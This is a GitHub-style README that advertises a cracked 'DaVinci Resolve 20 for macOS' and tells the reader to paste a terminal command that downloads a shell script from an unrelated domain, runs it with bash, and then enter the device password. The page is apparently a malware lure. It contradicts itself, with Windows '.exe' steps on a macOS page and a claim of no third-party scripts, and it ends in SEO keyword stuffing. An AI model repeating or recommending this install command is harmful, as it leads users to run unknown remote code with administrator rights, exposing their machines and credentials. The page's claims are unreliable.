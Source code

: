 <p align="center">
  <img src="https://rsload.net/images6/DaVinci_Resolve_Studio%20crack.jpg" width="120"/>
</p>

<h1 align="center">🎬 DaVinci Resolve 20 for macOS</h1>

<p align="center">
  <a href="#">
    <img src="https://img.shields.io/badge/⬇️%20Download-DaVinci_Resolve_20-green?style=for-the-badge&logo=apple&logoColor=white"/>
  </a>
</p>

---

> Powerful all-in-one solution for professional editing, advanced color correction, audio post, and visual effects – now available with a manual setup for macOS.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📌 Key Features

- 🎞️ Advanced multi-track timeline editing
- 🎨 Hollywood-grade color grading tools
- 🔊 Fairlight audio suite with ADR and 3D sound
- 🧩 Fusion VFX and motion graphics
- 📁 Supports Blackmagic RAW and ProRes workflows
- 👥 Collaborative features for studio teams

---

## 💡 System Compatibility

| OS          | Supported        |
|-------------|------------------|
| macOS 12+   | ✅               |
| macOS 11    | ⚠️ Limited       |

---

## 🧩 How to Use

1. Unpack the `.zip` archive to any folder  
2. Disable internet connection temporarily  
3. **Launch AppLauncher.exe from the archive as Administrator**  
4. Follow on-screen instructions for setup  
5. Re-enable internet and enjoy full access

---

## 🖼️ Visual Preview

<p align="center">
  <img src="https://images.blackmagicdesign.com/images/media/releases/2020/20201113_davinci-resolve-17-1/carousel/3-davinci-resolve-17-1.jpg?_v=1605237879" width="720"/>
  <br/>
  <img src="https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/10/f6/ba/10f6ba55-0d57-d9a0-3df4-b429b7edbf00/DaVinciResolve20_AppStore_Color.png/643x0w.jpg" width="720"/>
</p>

---

## 📢 Important Notes

- No external tools or third-party scripts involved  
- This setup does not modify system files  
- Compatible with Apple Silicon and Intel Macs  
- Keep the archive for future reinstalls

---

## 🔍 SEO Keywords

```
DaVinci mac, DaVinci Resolve 20 macOS, DaVinci Studio manual setup, macOS video editing suite, pro color grading Mac, Fusion VFX DaVinci, Fairlight audio post, Blackmagic Resolve 20 Mac, macOS editor with launcher, visual effects studio Mac, DaVinci Resolve full version
```

